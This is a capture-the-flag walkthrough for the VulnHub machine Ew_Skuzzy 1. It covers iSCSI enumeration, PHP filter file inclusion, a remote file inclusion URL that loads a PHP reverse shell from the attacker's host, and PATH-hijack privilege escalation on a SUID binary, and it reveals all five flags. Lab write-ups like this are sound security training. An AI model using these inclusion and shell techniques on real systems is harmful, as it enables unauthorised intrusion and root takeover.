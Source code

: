 # Download #
https://www.vulnhub.com/entry/ew_skuzzy-1,184/

# Goal #
flags
uid=0(root) gid=0(root) groups=0(root)

# Walkthrough #
Initial nmap shows ssh on 22, web on 80, and iscsi on 3260
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-nmap-002.png)
<br><br>

Looking at the website we get a hint to scan the website using dirbuster
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-home-001.png)
<br><br>

dirb results
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-dirb-003.png)
<br><br>
*snippet of dirb results

All of the dirb results were junk except the last long URL
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-dirb-004.png)
<br><br>

Looking at the page, oh hello Lionel
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-hello-005.png)
<br><br>

Let's look at the page source and there is a long commented string (actually strings)
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-hellosource-006.png)
<br><br>

Base64 decode and Lionel trolled us
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-hellobase64-007.png)
<br><br>

With nothing else, we go back to see what we can find from the open iscsi port on 3260

Wait, ew skuzzy...iscsi....oh I get it :)

Google is always your friend, which yielded this helpful page
https://www.pentestpartners.com/blog/an-interesting-route-to-domain-admin-iscsi/

After installing iscsi tools I'm able to discover and connect to the target

iscsiadm -m node -p 192.168.0.130 -l iqn.2017-02.local.skuzzy:storage.sys0
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-iscsi-008.png)
<br><br>

fdisk reveals a new disk available at /dev/sdb
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-fdisk-009.png)
<br><br>

First we create the folder to mount to /mnt/skuzzy and then we mount and list the folder contents.  Look at that, flag1 is revealed
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-flag1-010.png)
<br><br>
flag1{c0abc15976b98a478150c900ebb0c86f0327f4dd}

Looking back at the mounted disk contents we see what appears to be another mountable disk called bobsdisk.dsk. Creating the folder, mounting, and listing we find an email file ToAlice.eml and an encrypted file ToAlice.csv.enc
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-bobsdisk-011.png)
<br><br>

Looking at the ToAlice.eml, there's a lot of useful information and some misleading in my opinion about how to decrypt the ToAlice.csv.enc file.  Also flag2 is revealed :)
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-flag2-012.png)
<br><br>
flag2{054738a5066ff56e0a4fc9eda6418478d23d3a7f}

So to decrypt the ToAlice.csv.enc file the email gives you everything you need including the password.  It hints that you need to use RockYou, but the password is right there and with that flag3 is revealed and more URLs

openssl enc -d -aes256 -in /mnt/bob/ToAlice.csv.enc -out /mnt/bob/ToAlice.csv -k supercalifragilisticoespialidoso
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-flag3-013.png)
<br><br>

flag3{2cce194f49c6e423967b7f72316f48c5caf46e84}

Now back to the webs and the URLs we found. First one has some sweet scrolling marquee
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-marquee-014.png)
<br><br>

Source code reveals more long commented strings
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-marqueesource-015.png)
<br><br>


Base64 of strings reveal a Seinfeld troll :P
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-marqueebase64-016.png)
<br><br>


Next URL looks more interesting and states in the title we're on the right track
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-017.png)
<br><br>

Looking at the links, first three are nothing of importance 

welcome.php
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-018.png)
<br><br>

flag.php
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-019.png)
<br><br>

party.php also includes link out to http://cultofthepartyparrot.com
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-020.png)
<br><br>

The last link reader.php has a new link called Load Feed. When clicked it actually calls out to a file located on the local file system named data.txt
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-021.png)
<br><br>

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://127.0.0.1/c2444910794e037ebd8aaf257178c90b/data.txt
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-2ndurl-022.png)
<br><br>

From here it looks like we might be able to do some LFI, so back to Google and we find this helpful site for a reminder :) https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

Giving it a try on the data.txt file and we're giving a long string
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-phplfi-023.png)
<br><br>

Base64 on the string reveals the source code and it seems that normal php tags use ##php## instead
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-database64-024.png)
<br><br>

With that I started checking all the .php files associated with the links and flag.php revealed flag4 also told that we'll need it later for shell access
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-flag4-025.png)
<br><br>
flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}

Base64 of reader.php was the entire source code, but hints that we need to provide a key
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-reader-026.png)
<br><br>
*snippet of reader.php

Trying RFI to Kali and told that we need a key for authentication 

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://192.168.0.131
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-keyneeded-027.png)
<br><br>

Before anything I prep the php reverse shell on Kali, but making sure that I replace the starting and ending php syntax to ##php##
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-phpreverse-028.png)
<br><br>

Using flag4 as the key and calling our php reverse shell we now have a limited reverse shell :)

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&key=flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}&url=http://192.168.0.131/bzyo.php
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-reverseshell-029.png)
<br><br>

Privilege escalation took me some time as I was stuck on finding something with iscsi.  After going through the go to privilege escalation guide, the file alicebackup stood out as the other key files included alice in the name
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-suid-030.png)
<br><br>

Looking closer at the file it's executable so I run it and it runs the command /usr/bin/id and attempts an ssh connection
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-alicebackup-031.png)
<br><br>

Spent some time looking at HOSTALIASES, but that obviously didn't pan out so I took a step back...

I know that alicebackup runs id utility after executed as it prints out that root is running the program. However it's probably not using a full path and relative instead
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-pathid-032.png)
<br><br>

Let's copy /bin/sh to /tmp folder and rename it id and then add /tmp to the PATH
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-newid-033.png)
<br><br>

Running alicebackup now triggers id utility at /tmp folder, but instead of giving the user it spawns a root shell and flag5 is revealed in the root folder :)
<br>![alt text](https://github.com/bzyo/vulnhub/blob/master/2017/Ew_Skuzzy_1/imgs/skuzzy-flag5-34.png)
<br><br>
flag5{42273509a79da5bf49f9d40a10c512dd96d89f6a}
